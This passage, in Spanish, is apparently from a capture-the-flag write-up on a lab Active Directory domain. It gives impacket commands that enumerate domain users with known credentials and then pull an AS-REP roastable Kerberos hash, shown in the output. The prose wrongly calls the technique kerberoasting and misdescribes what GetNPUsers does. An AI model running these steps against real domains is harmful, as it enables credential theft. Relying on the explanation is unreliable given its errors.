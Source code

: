 Vamos a filtrar todo esta informacion y selecciona solamente los usuarios para guardarlos en un `users.txt`:

```shell
impacket-lookupsid charlie@SOUPEDECODE.LOCAL | awk -F'\\\\| ' '/SidTypeUser/ {print $3}' > users.txt
```

Y nos lo dejara algo asi:

```
Administrator
Guest
krbtgt
DC01$
bmark0
otara1
kleo2
eyara3
pquinn4
jharper5
bxenia6
gmona7
oaaron8
pleo9
evictor10
wreed11
bgavin12
ndelia13
akevin14
kxenia15
ycody16
qnora17
..............................<DEMAS_USERS>....................................
```

Ahora teniendo este listado vamos a descubrir que usuarios son vulnerables a un `kerberoasting` pudiendo obtener el `hash` de `kerberos` de la contraseña del usuario.

## impacket-GetNPUsers

```shell
impacket-GetNPUsers -usersfile users.txt -dc-ip <IP> 'SOUPEDECODE.LOCAL/charlie:charlie'
```

Este comando realiza una **enumeración de usuarios** en un dominio de **Active Directory** utilizando el protocolo **Kerberos** y el mecanismo de **Pre-Authentication**. Aprovechando las credenciales de un usuario específico (**charlie:charlie**), la herramienta **impacket-GetNPUsers** intenta autenticar a varios usuarios (especificados en un archivo de texto) contra el **Controlador de Dominio**. Si el **KDC** responde positivamente, se determina que el usuario existe y es válido en el dominio, lo que permite descubrir usuarios válidos en el dominio sin necesidad de obtener contraseñas.

Info:

```
........................<RESTO_RESULTADOS>........................................
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:955d871845638be17bd37c7ac9ebcc3d$33909b8566042db8e09cbe6d7a4b9d93387556653279f031a414060093349583b95207e7da4ea711b28b82b38744fef76386b7da0871e8b0a6b7a8de362b14089f7e210f13a0eb0db0c6fca063182272d384074dc988c7abffcbcbf139d01689dae5fff277164ebdec864a49ea0c68672d1ec146774fbb4508b46a74ab84a1af057679606a70fa413dc970428bb9a5d94378ed0cb15c41d430b59072c5072bebb050393ecf7c4c5cbd77b60cb9a8bbc3cd9381ac29ae0f62b95636953ebf8b0e7999d7f0b103a3af9f3657be608ee39edfe0d1f97a29937527114dbbe2df945436398ac418282ef167fac745765ebfa0e926cc674b4f
........................<RESTO_RESULTADOS>........................................
```
